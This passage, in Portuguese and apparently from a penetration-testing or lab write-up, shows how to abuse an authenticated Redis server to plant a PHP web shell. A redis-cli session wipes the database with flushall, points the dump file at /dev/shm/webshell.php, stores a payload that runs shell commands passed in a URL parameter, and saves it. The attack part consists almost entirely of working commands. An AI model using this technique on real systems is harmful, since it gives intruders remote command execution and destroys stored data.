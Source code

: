 Aqui usaremos o **Redis** para criar uma web shell, criamos em ``/dev/shm`` pois todos os usuários podem ler e escrever nessa pasta, é importante que a aplicação consiga chegar nesse arquivo para executa-lo.
```sh
$ redis-cli -h 10.0.10.5 -p 6379

10.0.10.5> AUTH redis-password
10.0.10.5> flushall
10.0.10.5> config set dir /dev/shm
10.0.10.5> config set dbfilename webshell.php
10.0.10.5> set test "<?php system($_GET[0]); ?>"
10.0.10.5> SAVE
```